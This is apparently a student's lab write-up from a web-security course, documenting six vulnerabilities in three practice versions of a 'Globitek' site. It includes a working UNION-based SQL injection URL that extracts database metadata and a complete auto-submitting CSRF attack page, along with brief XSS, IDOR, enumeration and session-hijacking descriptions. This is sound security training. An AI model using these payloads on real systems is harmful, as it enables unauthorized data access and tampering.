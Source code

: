 # Project 8 - Pentesting Live Targets

Time spent: 7 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: __SQL Injection__
    By using ``` https://104.155.169.96/blue/public/salesperson.php?id=%27%20union%20select%201,(select%20concat(%222select%20database()%20is%20%22,%20(select%20database()))),(select%20concat(%22-----------------3select%20user()%20is%20%22,%20(select%20user()))),(select%20concat(%224select%20version()%20is%20%22,%20(select%20version()))),5%20--%20 ``` I can make the id query come back with some unioned table and database metadata - things an attacker should not have access to!
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/blue1.gif)

Vulnerability #2: __Session Hijacking/Fixation__
    By using the built in session changing tool, I can steal the session ID from one user and login as them without credential checking.
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/blue2.gif)

## Green

Vulnerability #1: __User Enumeration__
    Using logins that have a real username leads to a bolded error message, but logins using nonexistent username leads to an unbolded error message.
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/green1.gif)

Vulnerability #2: __Cross Site Scripting__
    By using script alert, an attacker can add a comment which when viewed leads to execution of arbitrary javascript.
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/green2.gif)
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/green2b.gif)

## Red

Vulnerability #1: __Insecure Direct Object Reference__
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/red1.gif)
    A non logged in user can access any salesperson by changing their ID - even ones not listed.
Vulnerability #2: __Cross Site Request Forgery__
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/red2.gif)
    By accessing a hacker's page with the following html, a logged in user can unknowingly change values via post request to be the values the hacker desires.
    ```
    <html>

<!-- <body onload="document.form2Sub.submit()"> -->
<iframe name="secretsarenofun" src="#" style="display: none;">
</iframe>
<form action="https://104.155.169.96/red/public/staff/countries/edit.php?id=2" method="post" name="form2Sub" id="formYesPls" target="secretsarenofun">
    <input type="hidden" name="name" value="Canadia555HACKED" />
    <input type="hidden" name="code" value="CA" />
</form>
Welcome to my not sketchy site - enjoy visiting, don't look at the source code or even think this is weird or sketchy.  Oh hai there.
<!--</body>-->
<script>
var sketchyform = document.getElementById("formYesPls");
sketchyform.style.display = "none";
sketchyform.submit();
</script>
</html>
```

## Notes
Lots of fun!
Only Firefox by default allows xframeoptions to load offsite
Bonus Objective 1: SQL goes beyond just showing the database injection, but also get important information about the system.
